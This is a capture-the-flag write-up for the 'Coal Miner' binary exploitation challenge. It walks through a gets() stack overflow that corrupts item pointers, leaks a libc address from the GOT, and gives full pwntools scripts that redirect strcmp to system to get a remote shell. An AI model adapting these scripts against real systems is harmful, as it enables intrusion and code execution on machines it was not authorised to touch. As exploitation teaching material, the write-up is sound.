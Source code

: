 # Coal Miner - Exploitation

## Description

First to fall over when the atmosphere is less than perfect

Your sensibilities are shaken by the slightest defect

nc 161.35.8.211 9999
Author: moogboi

## Solution

We are given a binary "coalminer"

```
$ file coalminer 
coalminer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bd336cddc0548ae0bc5e123e3932fd91be29888a, not stripped
```

```
$ checksec coalminer
[*] '/home/yodak/Documents/umdctf2020/coalminer/coalminer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can add or print items

```
$ ./coalminer 

Welcome to the Item Database
You may choose the commands 'add' or 'print' or 'done'
> add

Enter a name: 
aaaaa
Enter a description: 
aaaa
> print

Item 1
	aaaaa
	aaaa

> done

```

First, lets understand how adding new item works, that how "AddItem" function looks in ghidra:

```
void AddItem(astruct *param_1)
{
  uint uVar1;
  void *pvVar2;
  long in_FS_OFFSET;
  undefined8 local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  uVar1 = param_1->number_of_items;
  pvVar2 = malloc(0x20);
  *(void **)(&param_1->description + (ulong)uVar1 * 0x10) = pvVar2;
  puts("Enter a name: ");
  gets(&param_1->name + (ulong)(uint)param_1->number_of_items * 0x10);
  puts("Enter a description: ");
  gets((char *)&local_28);
  **(undefined8 **)(&param_1->description + (ulong)(uint)param_1->number_of_items * 0x10) = local_28;
  param_1->number_of_items = param_1->number_of_items + 1;
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

We can see that it mallocs 32 bytes on the heap for the item description, then it reads to stack a name of the item, reads description to local variable, and then copies the 8 bytes of description to previously allocated memory on the heap. We can clearly see that using the gets functions causes stack buffer overflow, but from checksec command we deduced that stack canary is used, which doesn't allow us to just overflow funtion return address. The parameter passed to the AddItem function is a local variable in the main function, so let's take a look how these variables are actually stored. That's how the stack before returning from "AddItem" function.

```
pwndbg> x/200xg $rsp
0x7fffffffdbf0:	0x0000000000602080	0x00007fffffffdc30
0x7fffffffdc00:	0x0000000062626262	0x09cea916a7582800
0x7fffffffdc10:	0x0000000000400b90	0x0000000000400b90
0x7fffffffdc20:	0x00007fffffffde50	0x0000000000400af7
0x7fffffffdc30:	0x0000000061616161	0x00000000006036b0
                        .
                        .
                        .
0x7fffffffde30:	0x0000000000000001	0x0000000000400770
```

My input for the name was "aaaa" and for the description "bbbb", the name landed on address 0x7fffffffdc30, which is main local variable, on address 0x7fffffffdc18 we can see address of space allocated by malloc, where is copied the description of item, which is stored at address 0x7fffffffdc00, address 0x7fffffffde30 stores number of items which is increased by one in every time the function is called. We can establish from this that a single item is struct looking something like this:

```
struct Item {
    char name[8];
    char *description;
};
```

 The "PrintItems" function just looks how many items there is (address 0x7fffffffde30 in my case) and prints name and description (which is the address to the heap) of the items. So to exploit this first we have to determine which version of libc is run on the server. We can use the gets function that saves Item name and can overwrite the address of item description and then use the "PrintItems" function (it prints the description of item at an address) to read address from GOT. But first we have to find a way to not overwrite that address because "addItem" function saves there the description suplied by second gets.

```
gets((char *)&local_28);
**(undefined8 **)(&param_1->description + (ulong)(uint)param_1->number_of_items * 0x10) = local_28;
```

To do this we can supply more than one item and overwrite the variable that stores the number of items, to make "addItem" function not to overwrite the address we want to read. Script that I used:

```
from pwn import *



r = remote('161.35.8.211', 9999)
puts_plt=0x602020
address=0x602010 # address that we dont care if it gets overwritten

print(r.recvuntil('> '))

r.sendline('add')
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

puts_libc = u64(par.split("\n")[3][1:]+"\0\0")

print(hex(puts_libc))

r.close()

```

The variable that stores the number of items is overwritten by 1, and the it is incremented by one by "AddItem" function and then the description supplied by gets is written to 0x602010 and the 0x602020 is not changed.


To identify which libc is running I used https://libc.nullbyte.cat/

After that we can write the actual script to exploit it, I replaced the strcmp funtion address in GOT by system function, because it uses string provided by user in which we just write "/b*/sh" (the wildcard * is used becaues it reads 7 bytes from user)

```
from pwn import *


r = remote('161.35.8.211', 9999)
puts_plt=0x602020
address=0x602010 # random address that we dont care if it gets overwritten
strcmp_plt=0x602050
offset_system=0x03f480
offset_puts=0x068f90

print(r.recvuntil('> '))

r.sendline('add')
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

libc = u64(par.split("\n")[3][1:]+"\0\0")-offset_puts
print(hex(libc))

r.sendline('add')

r.sendline('a'*8+p64(strcmp_plt))
r.sendline(p64(libc+offset_system))
print(r.recvuntil('> '))

r.sendline('/b*/sh')

r.interactive()

r.close()

```